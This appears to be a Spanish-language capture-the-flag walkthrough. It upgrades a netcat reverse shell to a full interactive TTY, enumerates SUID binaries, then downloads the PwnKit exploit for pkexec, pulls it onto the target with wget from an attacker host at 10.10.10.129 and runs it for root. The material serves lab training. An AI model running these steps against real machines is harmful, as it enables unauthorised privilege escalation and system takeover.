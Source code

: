 script /dev/null -c bash 
 precionamos Ctrl+z para pausar nc y ejecutamos el comando 
 **stty raw -echo; fg**  
 y luego reseteamos la terminal con 
 **reset xterm** 
 esto nos permitira precionar Ctrl+c sin sacarnos del la terminal remota 
 luego revisamos **echo $TERM** para cambiar su valor a **xterm**  **export TERM=xterm** esto nos permitira utilizar **Ctrl+l** 
 Ahora modificaremos las dimenciones de la tty para trabajar mejor
 Revisamos el tamanno del tty 
 **stty size**  y revisamos el de nuestra consola para agregarlo a la de la maquina objetivo como:
**stty rows 43 columns 184** esos son los valores de nuestra consola personal

despues de acceder intentaremos elevar privilegios
**sudo -l** para ve si nuestro usuario tiene algun privilegio especial
**id** para ver si estamos en algun grupo interesante
**find / -perm 4000 2>/dev/null**
Detectamos que tenemos varios ficheros con estos permisos y despues de una investigacion encontramos **/usr/bin/pkexec** se puede explotar para escalar privilegios con **PwnKit**

Desde nuestra maquina nos descargamos **PwnKit** y desde la maquina objetivo mediante los socat  lo llevamos a la pc 

Descargamos el archivo desde nuestra maquina
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

Nos movemos a tmp para podes descargar el archivo **cd /tmp**
wget http://10.10.10.129:4545/PwnKit

le damos permisos
**hmod +x PwnKit**

lo ejecutamos **./PwnKit**   y obtenemos privilegios de **root**
nos vamos al home de root y encontramos la flag
